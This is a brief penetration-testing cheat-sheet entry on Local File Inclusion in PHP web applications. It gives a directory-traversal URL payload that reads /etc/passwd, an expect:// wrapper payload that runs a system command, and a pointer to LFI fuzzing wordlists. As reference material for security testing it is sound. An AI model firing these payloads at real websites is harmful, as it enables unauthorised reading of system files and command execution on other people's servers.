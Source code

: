 LFI (Local File Inclusion) allows you to read the targets system files from website.

http://website.com/stuff/script.php?page=index.html

Now if its vulnerable you can turn it into this

http://website.com/stuff/script.php?page=../../../../../../../../../etc/passwd

`And that will give output of /etc/passwd`

## PHP Expect Wrapper
PHP `expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default.

?page=expect://ls

## Interesting files
You can find wordlists in /usr/share/wordlists/SecLists/Fuzzing/LFI/ for interesting files you can fuzz with, or check out [[Interesting files]]